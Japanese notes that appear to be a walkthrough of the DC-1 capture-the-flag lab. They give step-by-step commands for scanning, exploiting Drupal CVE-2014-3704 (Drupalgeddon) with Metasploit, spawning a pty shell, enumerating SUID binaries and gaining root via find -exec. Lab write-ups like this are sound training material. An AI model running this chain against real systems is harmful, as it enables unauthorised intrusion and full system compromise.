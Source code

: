 ## DC-one 410~

## 目的
- flag1 <- システム内
- flag4 <- システム内
- theFinalFlag <- root

### ポートスキャンまでいつもと同じ
- 20, 80, 111

### 環境変数の設定
- `export IP=192.168.56.?` 

### nmapで脆弱性を探す
- さらにnmapで脆弱性を探す。`--script vuln`オプションをつけると異常に時間がかかるので、特定のポートだけ実施する
- `nmap -p 80,111 --script vuln $IP | tee vuln.log`
- `cat vuln.log`でcve-2014-3704の脆弱性が見つかる 


### Webサイトをチェックする
  - robots.txtを見る。これはクローラーがサイトをクローリングしてもいいかを判断できるサイト。Disallowと書いているのは、クローラの巡回を拒否している
  - サイトの作成ソフトとおおよそのバージョンがわかる
  - drupalは有名なwebサイトの構築ソフト


### droopescan
- droopescanはPythonベースのセキュリティスキャナでDrupal,wordpress,Joomlaで使える。より細かいバージョンがわかって、そこからwebサイトを構築している脆弱性を発見できることがある
- `droopescan scan drupal -u $URL`
- 結構時間かかる
- versin 7.22~7.26ということがわかる
- drupalはPluginを使うことで機能を拡張することができる。pluginには脆弱性がある場合があるので、拡張機能はチェックする


### Metasploitをネットで調べる
- drupalに脆弱性があるかもしれない
- 調べるだけなのでインターネットにつながっているなら何でもいい 
- `Exploit Database`を検索して、`drupal 7 remote`でsearchする(CVE-2014-3704)
- drupalgeddonを使うのでメモっておく
- 多分ここに表示されているmetasploitはどれも使えると思うが、ここでは上で選択したのを使っている

### (補足)searchsploitでexploitを探す
- ネットが繋がってなくても、searchsploitをダウンロードしていれば、これでも探すことができる
- `searchsploit drupal 7 remote`
- `.py`,`.rb`がコマンドで、`.txt`は説明
- シェルの取得を目的でdrupalのバージョンから、このモジュールを探す -> php/webapps/35150.php
- `searchsploit -m パスの番号`
  - `searchsploit -m 35150`
  - ファイルがダウンロードされるので実行する

### metasploitを実行する
  - ParrotOSのシェルで
  - `msfconsole`
  - 起動画面に使えるモジュールや分類が表示されている
  - どこにdrupalgeddonあるか調べる `search type:exploit drupal` Pathを覚えておく
    - `rank`というのはツールの有能性 
  - `use exploit/multi/http/drupal_drupageddon`
    - パスの入力にはTabが使える
    - 左にある番号を使って`use 番号`でもOK
  - `info`
    - モジュールの使い方がわかる 
  - `show options`をして、Requiredと書いてあるところのyesの部分は必ず埋める必要がある。ただし、`targeturi`はここではないので、デフォルトでスラッシュが設定されているので入力する必要がない
  - `set RHOSTS 192.168.56.103` ターゲット側端末
    - 大文字のところは小文字でもいい 
  - `set LHOST 192.168.56.102` 攻撃側端末
  - `show options`で確認する
  - `run`
  - シェルを取得できるが、これはダムシェルと言って機能が劣るシェルである。次のコマンドをやってみる これはOSを調べるコマンドである `uname -a`、使えないので、いつも使っているようなシェルにする。他にも色々コマンド試してみる


### Pythonのptyで対話シェルに切り替え
  - `shell`
  - Pythonを呼び出してシェルを呼び出す
  - `python -c 'import pty; pty.spawn("/bin/bash")'`
  - 対話シェルに切り替わる



### システムの探索
- 波線で消しているのはwww-dataは正規のユーザではないため、調べても意味がないため
- ファイル
  - `cat /etc/passwd`
  - ~`cat .bash_history` のコマンドの履歴で何かわかるかもしれない~
  - ~`cat .ssh`~
  - `/opt`
  - `/tmp` 一時ファイルの置き場所を調べる
- コマンド
  - ~`id` 個人ユーザがroot権限でできることを調べる~
  - `uname -a` メモに貼っておく
  - `find / -writable -type f 2>/dev/null | grep -v /proc/ | grep -v /sys/`
  - ~`sudo -l`をやってみる~
  - SUIDファイルを検索
    - `find / -perm -u=s -type f 2> /dev/null`
    - find以外に多くのコマンドが出てくるが、sudoコマンドは使えないのでsudoコマンドを使わないGTFOBinsを探す。結局、色々あるがfindしか使えない



### SUIDファイルであるfindコマンドでrootシェルの取得
- SUIDファイルはどのユーザが実行しても所有者が実行したことになる設定
- `which find`パスを調べる
- `ls -l /usr/bin/find`
  - 実行のパーミッションがSで所有者はrootなので、このファイルを実行したらrootになれる
- GTFOBinsのWebサイトから `find`を検索
  - GTFOBinsは裏技ではなく、見落としがちで上手いこと使えるコマンド集 
- `/usr/bin/find . -exec /bin/bash -p \; -quit`
  - `find ~`でもok
  - `-exec`は見つけたファイルを実行する。\;はexecコマンドの終了を示している
  - `-p`はrootを実効ユーザにするため 
- root権限の取得
  - `id`コマンドを実行すると、uid(www-data)でeuid(root)になっている。これは実ユーザがwww-dataで実効ユーザがrootであることを示している。実効ユーザになっているのはさっきのコマンドで`-p`をつけたため
### Flagを探して表示
  - `cat /root/thefinalflag.txt`  


